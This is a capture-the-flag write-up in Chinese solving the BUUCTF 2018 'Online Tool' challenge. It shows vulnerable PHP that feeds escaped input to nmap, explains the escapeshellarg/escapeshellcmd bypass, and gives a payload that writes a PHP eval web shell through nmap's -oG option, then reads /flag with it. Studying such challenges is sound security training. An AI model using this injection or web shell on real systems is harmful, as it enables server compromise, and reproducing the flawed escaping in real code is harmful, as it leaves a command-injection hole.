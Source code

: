 # [BUUCTF 2018]Online Tool（学习）
![](<./img/Pasted image 20221113171258.png>)
```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```
大家是都不喜欢闭合`php`标签吗QAQ

---
搜索得知，这里`$host`经过`escapeshellarg`和`escapeshellcmd`的处理是可以被绕过的

https://paper.seebug.org/164/
> 1.  传入的参数是：`172.17.0.2' -v -d a=1`
> 2.  经过`escapeshellarg`处理后变成了`'172.17.0.2'\'' -v -d a=1'`，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
> 3.  经过`escapeshellcmd`处理后变成`'172.17.0.2'\\'' -v -d a=1\'`，这是因为`escapeshellcmd`对`\`以及最后那个**不配对儿**的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
> 4.  最后执行的命令是`curl '172.17.0.2'\\'' -v -d a=1\'`，由于中间的`\\`被解释为`\`而不再是转义字符，所以后面的`'`没有被转义，与再后面的`'`配对儿成了一个空白连接符。所以可以简化为`curl 172.17.0.2\ -v -d a=1'`，即向`172.17.0.2\`发起请求，POST 数据为`a=1'`。

```shell
chen@cracktc-no-omen ~> echo '172.17.0.2'\\'' -v -d a=1\'  
172.17.0.2\ -v -d a=1'
```
---
`nmap`的手册中，和输出有关的参数如下
```
OUTPUT:  
  -oN/-oX/-oS/-oG <file>: Output scan results in normal, XML, s|<rIpt kIddi3,  
     and Grepable format, respectively, to the given filename.  
  -oA <basename>: Output in the three major formats at once  
  -v: Increase verbosity level (use twice for more effect)  
  -d[level]: Set or increase debugging level (Up to 9 is meaningful)  
  --packet-trace: Show all packets sent and received  
  --iflist: Print host interfaces and routes (for debugging)  
  --append-output: Append to rather than clobber specified output files  
  --resume <filename>: Resume an aborted scan  
  --stylesheet <path/URL>: XSL stylesheet to transform XML output to HTML  
  --no-stylesheet: Prevent Nmap from associating XSL stylesheet w/XML output
```
因此可以利用`-oG`上传木马

---
想上传的东西是这个
```php
<?php eval($_GET["cmd"]);?> -oG shell.php
```
其中像是`<`、`?`这些特殊符号必会被`escapeshellcmd`加上`\`，我们需要保证这些符号能在shell层面被直接解析
```php
'<?php eval($_GET["cmd"]);?> -oG shell.php '
```
会变成
```php
''\''<?php eval($_GET["cmd"]);?> -oG shell.php '\'''
```
然后变成
```php
''\\''\<\?php eval\(\$_GET\["cmd"\]\)\;\?\> -oG shell.php '\\'''
```
即可被解析

![](<./img/Pasted image 20221113194543.png>)
```php
/xxx/shell.php?cmd=system('cat /flag');
```
![](<./img/Pasted image 20221113194826.png>)
